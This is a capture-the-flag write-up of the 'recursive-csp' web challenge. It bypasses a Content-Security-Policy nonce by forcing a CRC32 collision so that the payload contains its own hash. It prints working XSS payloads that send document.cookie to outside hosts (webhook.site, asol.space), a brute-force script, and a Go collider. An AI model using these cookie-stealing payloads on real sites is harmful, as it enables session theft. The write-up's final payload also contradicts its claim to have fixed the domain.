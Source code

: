 # Recursive-csp

## Description

the nonce isn't random, so how hard could this be?

(the flag is in the admin bot's cookie)

- **Author** : strellic
- **Category** : Web
- **Points** : 115
- **Solves** : 178

## Solution

### Understanding the challenge

Here we get the source for `\?source` 

```php
<?php
  if (isset($_GET["source"])) highlight_file(__FILE__) && die();

  $name = "world";
  if (isset($_GET["name"]) && is_string($_GET["name"]) && strlen($_GET["name"]) < 128) {
    $name = $_GET["name"];
  }

  $nonce = hash("crc32b", $name);
  header("Content-Security-Policy: default-src 'none'; script-src 'nonce-$nonce' 'unsafe-inline'; base-uri 'none';");
?>
<!DOCTYPE html>
<html>
  <head>
    <title>recursive-csp</title>
  </head>
  <body>
    <h1>Hello, <?php echo $name ?>!</h1>
    <h3>Enter your name:</h3>
    <form method="GET">
      <input type="text" placeholder="name" name="name" />
      <input type="submit" />
    </form>
    <!-- /?source -->
  </body>
</html>
```

It's a simple XSS Challenge in PHP. The catch is that there is a [nonce](https://developer.mozilla.org/en-US/docs/Web/HTML/Global_attributes/nonce) that prevents us from getting XSS directly and the nonce is basically the [crc32](https://www.php.net/manual/en/function.crc32.php) hash of our payload. But our payload must contain the [nonce](https://developer.mozilla.org/en-US/docs/Web/HTML/Global_attributes/nonce)

Basically `We should have the crc32 hash of the WHOLE MESSAGE inside the MESSAGE`

### Trying the Bruteforce

For a while, we were trying to brute force the nonce, hoping it will be the same at least one time since the crc32 has only 8 bytes.

```php
<?php
for ($i = 0; $i <= 0xffffffff; $i++) {
  $x=sprintf("%08x", $i);
  $y='<script nonce="'.$x.'">window.location="https://webhook.site/a0a221c5-6a61-4ff6-a1f5-438ed5ce9403/?x="+document.cookie</script>';
  echo $y;

  $z=hash("crc32b", $y);

  if($z===$x){
    echo "found";
    exit();
  }

  echo "\n";
}
?>
```

But this never worked out :cry: 

We tried this so for so long and while it was running we searched for other ways.

### Trying the collider

So we searched for `crc32` collissions and got [this](https://github.com/fyxme/crc-32-hash-collider)

```go
func AddLetter(c chan string, combo string, alphabet string, length int) {
	// Check if we reached the length limit
	// If so, we just return without adding anything
	if length <= 0 {
		return
	}

	var newCombo string
	for _, ch := range alphabet {
		newCombo = combo + string(ch)
		c <- newCombo
		AddLetter(c, newCombo, alphabet, length-1)
	}
}

func worker(wChan chan string, target uint32) {
	for tString := range wChan {
		if crc32.ChecksumIEEE([]byte(tString)) == target {
			fmt.Println("Collision found:", tString)
		}
	}
}
```

This is just a crc32 hash collider written in go. It will start with a String and append as many characters as `maxLen` would allow and try if the hash matches. So all that was left was for us to decide on a nonce and give its corresponding integer as the `target` in the code.

**Note: Here we had to use a domain as the payload can only contain 127 characters and if we use webhook url we won't have enough charcters left to bruteforce**

By running the code on 16 different laptops with 16 cores with 16 different nonces, we were able to collide it just in time.

`<script nonce="e6377dcb">window.location="http://asol.space?x="+document.cookie</script>000000000000000000000000000000000048io`

But we made one mistake in the domain to which the flag is sent. Where the domain was supposed to be `https://axol.space` I put `https://asol.space` :sob:

Now we had to put the correct domain and hash it again. This time it took even longer. It took so much time that we were just going to buy `https://asol.space`. But we collided that payload too and finally got the flag

`<script nonce="e6377dcb">window.location="http://asol.space?x="+document.cookie</script>0000000000hytza`

**Flag**: `dice{h0pe_that_d1dnt_take_too_l0ng}`